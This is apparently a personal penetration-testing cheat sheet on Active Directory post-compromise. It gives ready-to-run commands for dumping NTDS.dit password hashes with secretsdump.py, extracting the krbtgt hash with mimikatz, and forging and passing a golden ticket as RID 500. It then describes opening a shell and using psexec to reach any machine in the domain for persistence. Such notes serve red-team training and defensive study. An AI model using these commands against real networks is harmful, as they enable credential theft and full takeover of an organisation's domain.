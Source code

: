 # Additional Compromised System Stratgies

- Dumping the NTDS.dit file

```jsx
secretsdump.py DOMAIN/USERNAME:'PASSWORD'@IPADDRESS -just-dc-ntlm
```

- Golden Ticket Overview

We can get the Golden Ticket by compromising the krbtgt account. With a golden ticket we can request access to every machine on the entire domain. This can be done through mimikatz. 

[Mimikatz](Mimikatz%2024baf343c597414582beba9f59228d4e.md)

```jsx
lsadump::lsa /inject /name:krbtgt
```

- Things needed from this command to complete the golden ticket attack
    - Domain SID
    - NTLM hash of krbtgt account

Once collected we can run the next command in mimikatz.

```jsx
kerberos::golden /User:CANBEANYTHINGEVENFAKEUSER /domain:DOMAIN /sid:SID /krbtgt:NTLMHASH /id:500 /ptt
```

id:500 means RID 500 for privileged user

Ptt means pass the ticket

Next step is to run the command below to get into a shell

```jsx
misc::cmd
```

Once in a shell you can download psexec.exe and gain shell access to ANY system on the domain because you are the ticketing system. 

A golden ticket is a key way to keep persistence if you have owned a domain controller.